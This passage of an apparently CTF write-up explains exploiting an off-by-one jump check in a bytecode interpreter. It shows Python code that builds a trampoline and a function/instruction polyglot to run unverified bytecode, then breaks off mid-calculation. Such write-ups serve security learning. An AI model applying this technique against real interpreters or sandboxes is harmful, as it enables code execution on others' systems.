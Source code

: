 There is an off-by-one error: If the operand is equal to `n_ops`, the jump is
allowed although the target instruction is out of range. We can exploit this by
defining a function with `MAX_OPS` instructions and have it jump to `MAX_OPS`.
The program counter will then end up in the header of the following function.
We just have to construct a function header that is also a valid, useful
instruction.

## The exploit

Our plan now is to construct a function that is also a valid jump instruction.
The memory layouts of the two structures compare as follows:

    interpreted as function:
    +--------------+--------------+--------------+--------------+----------+------
    | num_ops (16) | num_args(16) | verified (8) | op_code (16) | op1 (64) | ...
    +--------------+--------------+--------------+--------------+----------+------

    interpreted as jump instruction:
    +--------------+-------------------------------------------------+------
    | OP_BR (16)   | jump target (64)                                | ...
    +--------------+-------------------------------------------------+------

We can easily set `num_ops = OP_BR`, which happens to have the value 1. The jump
target is pretty much arbitrary, since `num_args` is ignored and we can control it.
We only have to make sure that there is a null byte in the correct position,
because `verified = 0` is set by the server.

Here is the code to create our trampoline function and function/instruction polyglot:

{% highlight python %}
operations = ""
for _ in xrange(30):
    operations += createOperation(OP_BR, 30, 0, 0)
trampoline_func = createFunction(30, 0, operations)
addFunction(sockfd, trampoline_func)
verifyFunction(sockfd, 0)

s = struct.pack("<HQ", 1, jmp_target) + "A"*5
num_ops, num_args, verified, opcode, op1 = struct.unpack("<HHBHQ", s)
assert num_ops == OP_BR
assert verified == 0

polyglot_func = createFunction(num_ops, num_args, createOperation(opcode, op1, 0, 0))
addFunction(sockfd, polyglot_func)
{% endhighlight %}

Now the tedious part is figuring out where to jump. We decided to just jump
into an unverified function that we define later, so we get to execute
arbitrary bytecode without bounds checking. The problem is that an instruction
structure is 26 bytes in size and a function structure *5 + 30 · 26 = 785*
bytes, so it is not obvious how to align the instructions properly. We can use
as many functions as we want as padding (as soon as there are less than
`MAX_FUNCS`, which is set generously to 64). The offset the first instruction of
function *X* is *785 · X + 5*. The offset of the *Y*th instruction of the first
function is *5 + 26 · Y*. We need to equate the two:

